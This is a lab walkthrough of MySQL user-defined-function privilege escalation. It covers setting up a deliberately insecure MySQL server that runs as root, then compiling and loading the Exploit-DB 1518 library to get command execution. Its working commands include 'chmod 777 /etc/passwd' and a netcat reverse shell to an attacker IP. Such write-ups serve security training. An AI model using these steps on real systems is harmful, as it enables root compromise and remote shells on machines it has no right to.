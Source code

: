 # Escalate_via_SQL_on_root_(UDF)

# Setting-up lab:

## Download and Install Required Packages

```
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-common_5.6.51-1debian9_amd64.deb>
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-community-client_5.6.51-1debian9_amd64.deb>
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-client_5.6.51-1debian9_amd64.deb>
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-community-server_5.6.51-1debian9_amd64.deb>
wget <https://downloads.mysql.com/archives/get/p/23/file/mysql-server_5.6.51-1debian9_amd64.deb>

```

## Missing dependencies if any

Add the Debian repo 

```
sudo vim /etc/apt/sources.list
```

Add the following line at the end:

```
 deb <http://archive.debian.org/debian> stretch main
```

Update and Install Dependencies

```
sudo apt update
sudo apt install -y libaio1 libncurses5 libtinfo5
```

## Install the Packages in Order

```
sudo dpkg -i mysql-common_5.6.51-1debian9_amd64.deb
sudo dpkg -i mysql-community-client_5.6.51-1debian9_amd64.deb
sudo dpkg -i mysql-client_5.6.51-1debian9_amd64.deb
sudo dpkg -i mysql-community-server_5.6.51-1debian9_amd64.deb
sudo dpkg -i mysql-server_5.6.51-1debian9_amd64.deb
```

Start and set to start on boot

```
sudo systemctl start mysql
sudo systemctl enable mysql
```

Verify MySQL version:

```
mysql --version
```

## Change user to root:

```
sudo vim /lib/systemd/system/mysql.service
```

Find:

```
User=mysql
Group=mysql
```

Change to:

```
User=root
Group=root
```

Restart:

```

 sudo systemctl daemon-reload
 sudo systemctl restart mysql
```

Now MySQL will run as root. 🚀

## Run service for local host:

```
sudo vim /etc/mysql/mysql.conf.d/mysqld.cnf
```

Find the bind-address and change it to local host:

```
bind-address = 127.0.0.1
```

Create a mysql user:

```
mysql -u root -p
```

Inside MYSQL, run

```

CREATE USER 'hacker'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'hacker'@'localhost' WITH GRANT OPTION;
FLUSH PRIVILEGES;

```

## Disable secure-file-priv:

secure-file-priv ensure that mysql can only read and write files to specific directory.

Edit file /etc/mysql/mysql.conf.d/mysqld.cnf:

```
sudo vim /etc/mysql/mysql.conf.d/mysqld.cnf
```

Give secure-file-priv an empty value

```
secure-file-priv=
```

Restart MYSQL:

```
sudo systemctl restart mysql
```

# Enumeration:

Service enum for network based service using netstat

```
netstat -nltup
```

Output:

```
               
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 **127.0.0.1:3306**          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp6       0      0 fe80::a00:27ff:fe0a:546 :::*                                -              
```

#MYSQL running on local host 

List running process using ps and grep “mysql”

```
ps -aux | grep "mysql"
```

Output:

```
**root**         708  0.0  0.0   2596  1664 ?        Ss   02:22   0:00 /bin/sh /usr/bin/mysqld_safe
**root**         885  0.0 22.8 1286264 462124 ?      Sl   02:22   0:01 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=root --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
```

# Exploiatation:

The exploit that has been used 

  [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

Compile the code.

```
gcc -g -c 1518.c
```

Create a shared library

```
gcc -g -shared -Wl,-soname,1518_udf2.so -o [1518_udf.so](http://1518.so/) 1518.o -lc
```

Find any writable directory and move the 1518_udf.so in to that directory.(you can use current directory )

```
mv ./1518_udf.so /tmp
```

Login mysql :

```
mysql -u hacker -p password
```

Check version:

```
select @@version;
```

Check architecture:

```
select @@version_compile_os, @@version_compile_machine;
show variables like '%compile%';
```

Check secure_file_priv value

```
show variables like '%secure_file_priv%';
```

If it is empty you can read and write data in any directory.

Switch to mysql database

```
use mysql;
```

Create a table.

```
create table foo(line blob);
```

Use load-file function to insert the content into the table.

```
insert into foo values(load_file('/tmp/1518_udf.so'));
```

Check plugin directory location:

```
 select @@plugin_dir;
```

Dump that inserted shared library content in the plugin directory location.

```
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518_udf.so';
```

 Create function:

```
create function do_system returns integer soname '1518_udf.so';
```

Use function for exploitation,verify using ping command or by creating file:

```
 select do_system('ping -c 4 192.168.0.225');  
 select do_system('touch /tmp/test'); 
```

Change the permission of /etc/passwd to 777 for root access

```
 select do_system('chmod 777 /etc/passwd');
```

Use netcat to take shell

```
select do_system('nc -e /bin/bash $attacker_IP $port');

Example:
select do_system('nc -e /bin/bash 192.168.31.6 223');
```

References:

[https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

[https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf?rss](https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf?rss)